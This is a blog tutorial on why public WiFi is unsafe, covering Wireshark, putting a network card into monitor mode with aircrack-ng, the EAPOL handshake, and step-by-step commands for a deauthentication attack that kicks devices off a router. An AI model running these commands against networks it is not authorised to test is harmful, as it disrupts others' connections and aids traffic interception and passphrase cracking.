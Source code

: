 # But why is a public wifi unsafe?

You might have heard that sensitive information like credit card credentials, login credentials for a website etc. should not be entered while using public wifi network. But why is it so? Okay, so someone can access the data we enter, but is it practically feasible? If yes, how can we do it? Well, in this post we are going to discuss on how can you analyse the network traffic. 

# Background
Okay so let's start with some basics first. There are a lot of devices around us emitting signals, but we'll mainly focus on two of them - the routers and the devices that are used to access the internet such as a smartphone or a laptop. The communication between them follows the **IEEE 802.11** standard. But what does that even mean? So whenever some data is to be transmitted, there has to be a set of rules to which the transmission data adheres, to ensure uniformity. For example, the requests over the **world wide web** follow the `HTTP` protocol in general. In the same way, communications for WiFi networks follow the **IEEE 802.11** standard protocol.<br>
The way your device catches these signals is via a Network Adapter (for example, your laptop might have one of Realtek or Broadcom). To view these signals around you, you need a network monitoring software. Although there are a lot of them, but Wireshark is a good choice and in this post we'll be using it.


# Basics of Wireshark
If you do not have wireshark installed on your laptop, download it from [here](https://www.wireshark.org/download.html).<br>
The video below covers the this topic pretty nicely, however there are a few things I would like to elaborate upon.
<figure class="video_container">
  <iframe src="https://www.youtube.com/watch?v=Hl0IpoS503A" frameborder="0" allowfullscreen="true"> </iframe>
</figure>

<br>

## Monitor Mode
So for the interesting part, that is capturing network traffic of the devices connected to your network, we need to switch on the monitor mode. So what this mode actually does is use the network card in your laptop/PC to capture all the signals being transmitted, and you can see them in wireshark. But all the data is encrypted and to decrypt the data, we need a couple of things- **the WiFi passphrase** and **the EAPOL Handshake**(I'll be talking about it in a minute). So that's where the problem with **Open WiFi** comes in. The data is **NOT** encrypted!! Unless the site you are visiting uses `HTTPS` for transmission, all the data is visible to the intercepter. Also, the intercepter can view what domains you visit, what apps you open, who is the manufacturer of the device, and  what is your mobile operating system.

### Turning on the Monitor Mode
* You need to have `aircrack-ng` installed on your system. There are other ways as well, but using `aircrack-ng` is preferred because you'll be able to do a lot of other stuff as well with it.<br>
`sudo apt install aircrack-ng`
* Run the command `iwconfig`. This will tell you what your wireless card is called (most likely it will be `wlan0`).
* Run `airmon-ng start wlan0`. Now this will turn on the monitoring mode. You will be disconnected from the WiFi and now you can open wireshark to observe the traffic.
* Once you are done, you need to turn off monitoring mode. For that run `iwconfig` again to check what is the name assigned to your wireless card in monitoring mode (usually it is `wlan0mon`). Then run `airmon-ng stop wlan0mon`.

## EAPOL Handshake
In the previous section, we talked about EAPOL handshake. So what is it and why do we need it? What happens is, when a device connects to a WiFi network, there is a key exchange between the router and the client that encrypts all of the communication thereafter. The reason it is needed is if you want to see what the traffic from that device contains or you want to crack the router's passphrase, you'll need these these keys. Formally this process is known as **4-way handshake** and **EAPOL** is the name of protocol used for exhanging the keys. You can read more about it [here](https://www.wifi-professionals.com/2019/01/4-way-handshake).<br>
So if these keys are needed for decryption and can be captured only when a device connects to a network, isn't it tough to get them? Well, the answer is no. There is something known as a deuathentication attack.

## Deauthentication attack
Now we enter one of the most interesting parts of the post. Have you ever had someone using your network and taking up all the bandwidth and you just want to kick them out (from the network) ? Well, this attack does exactly that. You can kick any (or all) devices connected to a router.

### Performing Deauthentication attack
* Turn on the monitor mode as described above.
* Run `airdump-ng wlan0mon`. This command will give you a list of routers available in your vicinity. Note down the `BSSID` and the `channel number (CH)` of the desired router. 
* Run `airodump-ng wlan0mon --bssid [router's BSSID here] --channel [router's channel here]` and you will get a list of devices connected to the router. If there is a particular device you need to disconnect, note down its [MAC Address](https://en.wikipedia.org/wiki/MAC_address).
* Now the final part, run `aireplay-ng --deauth 0 -c [DEVICES MAC ADDRESS] -a [ROUTERS MAC ADDRESS] wlan0mon`. If you skip the `-c` flag part, it deuathenticates all devices connected to the router. The devices won't be able to connect again unless you stop the attack by pressing `Control+C`.


# Conclusion
All the network traffic around you can be monitored pretty easily, but to decrypt it and actually make sense out of it you need an open network or access to the passphrase. All your information is safe unless the sites you are using do not use `HTTPS` protocol (i.e. they do not have a lock sign on the left of the url). But still, you would not like to enter passwords on sites that have `HTTP` protocol, because the attacker can gain access to that and you might be using the same password on other sites as well. And anyways the sites that you visit will be visible to the attacker irrespective of the protocol being used. 









